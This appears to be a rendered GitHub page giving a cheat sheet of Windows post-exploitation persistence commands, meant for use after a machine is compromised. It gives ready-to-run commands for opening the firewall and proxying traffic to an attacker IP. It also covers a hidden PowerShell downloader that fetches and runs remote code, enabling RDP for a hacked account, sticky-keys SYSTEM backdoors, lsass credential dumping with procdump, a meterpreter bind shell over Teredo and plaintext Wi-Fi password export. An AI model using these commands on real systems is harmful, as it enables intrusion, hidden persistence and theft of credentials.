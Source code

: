 <!-- Code for collapse and expand -->
<script type="text/javascript">
$(document).ready(function() {
$('div.view').hide();
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast');
return false;
});
});
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`

### Allow a program to listen through the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add allowedprogram C:\nltest.exe mltest enable`

### Open a port on the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add portopening tcp 2482 lt enable all`


### Tunnel Traffic Natively with Windows
`netsh int portproxy v4tov4 listenport=80 connecthost=[AttackerIP] connectport=80`


### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_.


### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.


    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below.



    <pre>

     Windows Registry Editor Version 5.00

     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]

     "fDenyTSConnections"=dword:00000000

     "TSEnabled"=dword:00000001

     "TSUserEnabled"=dword:00000000

    </pre>



 1. On the remote system, execute the following commands:


```
c:\> sc config termservice start= auto sc config termservice start= auto

c:\> regedit /s enable_ts.reg

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb

c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini

c:\> gpupdate /Force

c:\> net start "terminal services"
```





### Scheduler

The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.



<pre>

c:\> net use \\[TargetIP]\ipc$ password /user:username

c:\> at \\[TargetIP] 12:00 pm command

</pre>



An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`


### Scheduling tasks to run under special conditions

One can schedule tasks to run under certain conditions such as when a user logs into the computer or when the computer is idle
with the schtasks command. This can be done by any user and includes the following additional conditions which can come in handy:

* ONIDLE -> Run a command once the system enters an idle state
* ONLOGON -> Run a command when a user logs into the system
* ONSTART -> Run a command when the system starts up
 
If you would like more information on the various command line options for this tool, Microsoft describes them in great
detail at: [https://technet.microsoft.com/en-us/library/cc725744.aspx#BKMK_create](https://technet.microsoft.com/en-us/library/cc725744.aspx#BKMK_create)



### Sticky Keys (Requires reboot)

Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`.



Some caveats:

* If NLA (Network Layer Authentication) is enabled, this won't work

* If RDP (Remote Desktop Protocol) is disabled, this won't work





### Sticky Keys (No reboot)

This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place.

* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`

* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)

* For the "Debugger" REG_SZ, make it have a value of your binary

* Press SHIFT 5 times and your binary should be executed

### Process Dumping For Passwords
If you have access to a server and one of the user's usernames and passwords and can create shares on that computer,
you may be able to create a scheduled task which runs procdump.exe to dump all of the memory of the lsass process,
thus gaining access to all of the stored credentials on the targeted computer:

```
net use \\target server /user:DOM\username password
copy procdump.exe \\targetserver\c$
copy procdump.bat \\targetserver\c$
procdump.exe -ma lsass creds.dump
at \\targetserver 13:37 C:\procdump.bat
copy \\targetserver\c$\targetserver.dmp .
```

### Teredo IPv6 Bindshell
Creating a teredo tunnel to allow a remote victim to tunnel IPv6 packets over IPv4 may allow you to evade some
filter detection systems and extract information from a victim without triggering alerts on the target network.

In order to do this one needs to use a teredo server which will convert IPv4 packets to IPv6 packets and vice versa.
Several publicly available servers are available including:

* teredo.trex.fi
* teredo.remlab.net
* teredo-debian.remlab.net
* teredo.ngix.ne.kr
* win8.ipv6.microsoft.com (This may be shaky on Windows 7, so don't rely on it)

To set up a tunnel, issue the following commands:

```
netsh interface ipv6 install
netsh interface ipv6 teredo enterpriseclient
netsh interface ipv6 teredo set client teredo.trex.fi
msfpayload windows/meterpreter/bind_ipv6_tcp LPORT=5555 X > bind.exe
```

All we have to do at this point is upload the resulting bind.exe payload to the victim, execute it, and then set up
metasploit to connect to the public IPv6 address that the victim was assigned on the specified port (5555 in this example), and we should now be able to get a meterpreter shell using teredo tunneling :)

Further details are available at [http://www.room362.com/blog/2010/09/24/revenge-of-the-bind-shell/](http://www.room362.com/blog/2010/09/24/revenge-of-the-bind-shell/)

### Export Local Wireless Passwords (In Plaintext)
```
netsh wlan export profile key=clear
```
